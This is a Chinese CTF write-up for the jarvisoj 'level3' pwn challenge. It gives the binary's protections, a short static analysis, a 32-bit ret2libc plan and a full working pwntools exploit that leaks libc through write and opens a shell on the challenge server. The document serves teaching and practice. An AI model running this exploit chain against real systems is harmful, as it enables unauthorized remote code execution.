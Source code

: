 ```yaml
---
author: 
  name: Zephyr
title: jarvisoj level3
date: 2022-3-25 17:31:03
permalink: /pages/2e1547494524d199
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# jarvisoj level3

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/jarvisoj_level3/level3'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  vulnerable_function();
  write(1, "Hello, World!\n", 0xEu);
  return 0;
}
```

vulnerable_function函数及函数表如下

![jarvisoj_level3_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/jarvisoj_level3_1.png)

## 思路分析

1. 目前信息：
   - vulnerable_function函数可溢出
   - 无system、/bin/sh及后门函数
   - No PIE
2. 思路：
   - 32位ret2libc做法

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/jarvisoj_level3/level3'
io = remote('node4.buuoj.cn', 28630)
# io = process(pwnfile)
elf = ELF(pwnfile)
padding = 136+4
libc_start_main_got = elf.got['__libc_start_main']
write_plt = elf.plt['write']
vulnerable_function = elf.symbols['vulnerable_function']
payload = flat(['a'*padding, write_plt, vulnerable_function,1, libc_start_main_got, 4])
io.sendafter('Input:\n', payload)
leak_libc_start_main = u32(io.recvuntil('Input:\n', drop=True))
libc = LibcSearcher('__libc_start_main', leak_libc_start_main)
libc_base = leak_libc_start_main-libc.dump('__libc_start_main')
system = libc_base+libc.dump('system')
bin_sh = libc_base+libc.dump('str_bin_sh')
payload = flat(['a'*padding, system, 0xdeadbeef, bin_sh])
io.send(payload)
io.interactive()
```